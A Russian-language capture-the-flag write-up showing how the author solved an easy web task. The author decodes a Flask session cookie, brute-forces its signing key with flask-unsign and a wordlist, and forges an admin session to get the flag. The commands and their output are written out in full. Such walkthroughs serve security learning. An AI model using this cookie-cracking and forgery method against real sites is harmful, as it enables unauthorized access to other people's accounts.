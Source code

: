 
level: **Лёгкий**
Description: **Видные люди в гостях не засиживаются**
IP: **62.173.140.174:16042**

Нас встречает 
![[Pasted image 20240224170953.png]]

Пишем самую очевидную команду для эмуляции терминалов на CTF - 
![[Pasted image 20240224171227.png]]
пробуем getFlag
![[Pasted image 20240224171313.png]]
Очевидно не работает, давайте заглянем под капот к этому таску:

![[Pasted image 20240224171629.png]]

Если загуглить или спросить у ChatGpt что значит xmkHttp.withCredentials()
то будет ответ:
![[Pasted image 20240224171732.png]]

Значит надо обратить внимание на аутентификацию пользователя на сайте.
![[Pasted image 20240224171941.png]]
`
`.eJwljjsOAjEMBe-SmsL5Oc5eZmU7L0C7nwpxdyLRjmak-YR9HjhfYbuOG4-wv0fYgpWSoml3Ti5oNJt2WE3ulnJRJjMYiEx6Y47ZnQGo6KoyKcdJRbRRzTJbSrw0H-gSI42SUUcZFeJdx2Lg3kckaiYs0VOmGdbIfeL43zxvnFf4_gCupzEt.ZdnnSA.HZXegpDnNvZmxaKdlFxDs2kNZ-A`

Поле session представляет собой Flask Session Cookie , это подтверждает werkzeug в бурпе или в расширении Wappalyzer, а также характерная точка в начале.

После поиска в интернете находим:
https://www.kirsle.net/wizards/flask-session.cgi
 куда пихаем наш токен.
 ![[Pasted image 20240224172334.png]]

````json
{
    "_fresh": true,
    "_id": "b4421ba9c62c8e70f7a9eb52ccb234a60bbebe00b8976613cc6eeea8a21b30a61f048a70538f7226897cde98110d43e5d4d5e8c9ad981e699d1007b8681c230f",
    "_user_id": "guest"
}
````


значит надо изменить `_user_id` на admin, но как это сделать?


>Как уже упоминал Элиас, файл cookie можно декодировать без секретного ключа, но без него нельзя манипулировать им по очевидным причинам безопасности. Если бы подделка файлов cookie была такой простой, никто бы не использовал сеансы Flask. Поэтому ваша задача — найти секретный ключ, а поскольку хеш-функция SHA-1 необратима, вам следует обратить внимание на человеческий фактор. 
>При этом вам придется «угадывать» секретный ключ нерадивого программиста конкурса, используя грубую силу, и, к счастью, Flask-Unsign может вам в этом помочь. Вы можете установить его через pip, используя следующую команду: 
>`pip3 install flask-unsign`
`
> Но перед его использованием вам понадобится список слов, например rockyou, который вы можете скачать из репозитория Kali Linux.
\-https://stackoverflow.com/questions/77340063/flask-session-cookie-tampering

Сначала я попробовал слова:
- underground
- codeby
- guest
- admin
- CODEBY
как самые очевидные. Но потом все-таки решил rockyou.
````python
flask-unsign --unsign --cookie '.eJwljjsOAjEMBe-SmsL5Oc5eZmU7L0C7nwpxdyLRjmak-YR9HjhfYbuOG4-wv0fYgpWSoml3Ti5oNJt2WE3ulnJRJjMYiEx6Y47ZnQGo6KoyKcdJRbRRzTJbSrw0H-gSI42SUUcZFeJdx2Lg3kckaiYs0VOmGdbIfeL43zxvnFf4_gCupzEt.ZdnnSA.HZXegpDnNvZmxaKdlFxDs2kNZ-A' --no-literal-eval -w /usr/share/wordlists/rockyou.txt
````

И через пару секунд:
````python
flask-unsign --unsign --cookie '.eJwljjsOAjEMBe-SmsL5Oc5eZmU7L0C7nwpxdyLRjmak-YR9HjhfYbuOG4-wv0fYgpWSoml3Ti5oNJt2WE3ulnJRJjMYiEx6Y47ZnQGo6KoyKcdJRbRRzTJbSrw0H-gSI42SUUcZFeJdx2Lg3kckaiYs0VOmGdbIfeL43zxvnFf4_gCupzEt.ZdnnSA.HZXegpDnNvZmxaKdlFxDs2kNZ-A' --no-literal-eval -w /usr/share/wordlists/rockyou.txt

[*] Session decodes to: {'_fresh': True, '_id': 'b4421ba9c62c8e70f7a9eb52ccb234a60bbebe00b8976613cc6eeea8a21b30a61f048a70538f7226897cde98110d43e5d4d5e8c9ad981e699d1007b8681c230f', '_user_id': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1408 attempts
b'ramirez' 
````

Отлично, мы нашли `secret_key`, осталось совсем немного.

````python
python3 flask_session_cookie_manager3.py encode -s 'ramirez' -t '{"_fresh":True,"_id":"b4421ba9c62c8e70f7a9eb52ccb234a60bbebe00b8976613cc6eeea8a21b30a61f048a70538f7226897cde98110d43e5d4d5e8c9ad981e699d1007b8681c230f","_user_id":"admin"}'


.eJwljjkOwjAQAP_immLXx3qdz6C9LFJAkZAK8Xcs0Y5mpPmk-zzifKTtfVxxS_fd05a01owqwygbR4fZZYS2bKa5VCFQDQ0A5dGJsJhRRAjLqgoI4YTK0qEVnj1nWpp5DEYEryWaV2_BNsQXCxrDEaArE6PlAjOtkeuM438j_txf6fsDrgUxDg.Zdn3sA.B2ohvSthVgrLENSjGclY1HngkQQ

````
Пробуем подставить это значение в поле `session`
![[Pasted image 20240224174615.png]]
Отлично!
**CODEBY{fl4sk_w3b_4pps_c4n_b3_vuln3r4bl3}**

Stay Inline 
